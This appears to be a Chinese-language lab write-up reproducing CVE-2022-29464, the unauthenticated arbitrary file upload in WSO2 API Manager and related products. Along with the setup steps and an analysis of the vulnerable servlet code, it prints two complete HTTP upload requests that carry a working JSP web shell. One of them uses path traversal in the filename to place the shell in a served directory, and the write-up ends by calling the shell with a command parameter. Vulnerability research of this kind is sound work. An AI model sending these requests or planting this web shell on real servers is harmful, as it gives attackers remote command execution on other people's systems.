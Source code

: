 # WSO2 fileupload 任意文件上传漏洞 CVE-2022-29464

## 漏洞描述

CVE-2022-29464 是 Orange Tsai发现的 WSO2 上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## 漏洞影响

<a-checkbox checked>WSO2 API Manager 2.2.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server 5.2.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0</a-checkbox></br>

<a-checkbox checked>WSO2 Identity Server as Key Manager 5.3.0 and above</a-checkbox></br>

<a-checkbox checked>WSO2 Enterprise Integrator 6.2.0 and above</a-checkbox></br>

## 环境搭建

[https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip](https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip)

[https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip](https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip)

## 漏洞复现

下载 releases 后进入 bin目录, 执行 api.manager.sh文件，并开启 debug 方便远程调试

![img](../../../.vuepress/public/img/1650767358343-2616cdd3-9166-4445-ad9a-4ea0277e1736.png)

打开 product-apim-4.0.0 ，下载依赖，连接Debug进行调试分析

![img](../../../.vuepress/public/img/1650804508335-ad372814-53fb-4c65-bb31-6197790a97a5.png)

运行后访问 localhost:9443 出现如下即搭建完成![img](../../../.vuepress/public/img/1650767529092-33b5d581-f964-4f82-a614-29584a71b160.png)

在配置文件 identity.xml 中我们可以看到 路由 `/fileupload` 中不存在权限鉴定,  对应的 Servlet 为 FileUploadServlet

![img](../../../.vuepress/public/img/1650801767796-769caf29-8c4c-4b39-940d-f8cdb15f089d.png)

文件上传为POST请求，对应的处理方法为 `doPost (org.wso2.carbon.ui.transports.FileUploadServlet#doPost)`

```java
protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {

        try {
            fileUploadExecutorManager.execute(request, response);
        } catch (Exception e) {
            String msg = "File upload failed ";
            log.error(msg, e);
            throw new ServletException(e);
        }
    }
```

继续向下，略过调用方法的过程

```java
execute:55, ToolsAnyFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
executeGeneric:104, AbstractFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
execute:436, FileUploadExecutorManager$CarbonXmlFileUploadExecHandler (org.wso2.carbon.ui.transports.fileupload)
startExec:320, FileUploadExecutorManager$FileUploadExecutionHandlerManager (org.wso2.carbon.ui.transports.fileupload)
execute:127, FileUploadExecutorManager (org.wso2.carbon.ui.transports.fileupload)
```

![img](../../../.vuepress/public/img/1650801837586-39bf1075-e0d5-4932-a808-e7f0e397b164.png)

![img](../../../.vuepress/public/img/1650802004637-1ac012b2-2978-41cb-bf15-13c863457ee3.png)

最后来到出现漏洞的位置 `org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute`

这里我们构造请求包，上传文件

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](../../../.vuepress/public/img/1650803224176-dbe2a392-a7b5-468a-bc6f-da381ffe0d49.png)

上传时文件名为 1.jsp，成功上传目标会返回 uuid 值, 调试过程中我们可以发现文件被上传在某个目录下

![img](../../../.vuepress/public/img/1650803654297-7c813794-2c58-4f63-aa8d-fac097a5bb90.png)

```php
public class ToolsAnyFileUploadExecutor extends AbstractFileUploadExecutor {

	@Override
	public boolean execute(HttpServletRequest request,
			HttpServletResponse response) throws CarbonException, IOException {
		PrintWriter out = response.getWriter();
        try {
        	Map fileResourceMap =
                (Map) configurationContext
                        .getProperty(ServerConstants.FILE_RESOURCE_MAP);
        	if (fileResourceMap == null) {
        		fileResourceMap = new TreeBidiMap();
        		configurationContext.setProperty(ServerConstants.FILE_RESOURCE_MAP,
                                             fileResourceMap);
        	}
            List<FileItemData> fileItems = getAllFileItems();
            //String filePaths = "";

            for (FileItemData fileItem : fileItems) {
                String uuid = String.valueOf(
                        System.currentTimeMillis() + Math.random());
                String serviceUploadDir =
                        configurationContext
                                .getProperty(ServerConstants.WORK_DIR) +
                                File.separator +
                                "extra" + File
                                .separator +
                                uuid + File.separator;
                File dir = new File(serviceUploadDir);
                if (!dir.exists()) {
                    dir.mkdirs();
                }
                File uploadedFile = new File(dir, fileItem.getFileItem().getFieldName());
                try (FileOutputStream fileOutStream = new FileOutputStream(uploadedFile)) {
                    fileItem.getDataHandler().writeTo(fileOutStream);
                    fileOutStream.flush();
                }
                response.setContentType("text/plain; charset=utf-8");
                //filePaths = filePaths + uploadedFile.getAbsolutePath() + ",";
                fileResourceMap.put(uuid, uploadedFile.getAbsolutePath());
                out.write(uuid);
            }
            //filePaths = filePaths.substring(0, filePaths.length() - 1);
            //out.write(filePaths);
            out.flush();
        } catch (Exception e) {
            log.error("File upload FAILED", e);
            out.write("<script type=\"text/javascript\">" +
                    "top.wso2.wsf.Util.alertWarning('File upload FAILED. File may be non-existent or invalid.');" +
                    "</script>");
        } finally {
            out.close();
        }
        return true;
	}

}
```

![img](../../../.vuepress/public/img/1650803736519-90e242b2-1478-4966-8bc5-5ef86402537c.png)

但文件名是我们可控的，拼接的过程中我们通过控制文件名遍历目录，将文件上传到我们需要的位置,  查找可以解析 jsp文件的目录 

![img](../../../.vuepress/public/img/1650803934233-733ce8ed-97da-4ece-acbf-c535d4704b34.png)

构造请求包，通过控制文件名的方法上传至该目录中

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](../../../.vuepress/public/img/1650804126298-f5cf8a01-075b-4c27-889a-8ba2eb5664ab.png)

访问上传的文件，`/authenticationendpoint/xxx.jsp?cmd=ls`

![img](../../../.vuepress/public/img/1650804305810-0c37ec79-0f9d-4eaa-9908-c223dca40471.png)